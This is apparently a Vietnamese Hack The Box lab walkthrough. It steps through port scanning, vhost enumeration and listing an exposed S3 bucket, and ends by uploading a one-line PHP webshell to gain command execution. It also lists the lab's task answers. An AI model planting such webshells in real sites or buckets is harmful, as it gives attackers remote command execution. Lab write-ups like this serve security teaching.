## Task 1


Thực hiện quét các port đang mở
```bash
sudo nmap --top-ports=1000 -T4 -sV -sC -Pn 10.129.227.248
```


> 2
## Task 2


Truy cập web tìm phần Contact


> thetoppers.htb
## Task 3


> /etc/hosts
## Task 4


Thực hiện dò các sub-domain khác
```bash
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
```

> s3.thetoppers.htb
## Task 5


> amazon s3
## Task 6


> awscli
## Task 7


> aws configure
## Task 8


> aws s3 ls
## Task 9


Thử list file s3 xem có liên quan gì đến server này không?
```bash
aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
Bình thường `aws s3 ls` sẽ gọi tới endpoint thật của AWS (`s3.amazonaws.com` hoặc theo region). Nhưng trong tình huống HTB/pentest, server mục tiêu (`s3.thetoppers.htb`) đang **tự host một S3-compatible service** (có thể là MinIO, hoặc chính server đó implement S3 API) — không phải AWS thật. Do đó bạn phải “trỏ” AWS CLI vào host đó bằng `--endpoint-url`, nếu không CLI sẽ cố gắng kết nối ra Internet tới AWS thật và fail/không liên quan gì tới target.


## Flag


Chúng ta đã list được rồi nên tạo thử một webshell để upload xem sao vì s3 kia có vẻ mà webroot
```php
<?php system($_GET["cmd"]); ?>
```
và tiến hành upload
```bash
aws --endpoint-url=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
Chúng ta call được thành công và tìm được flag

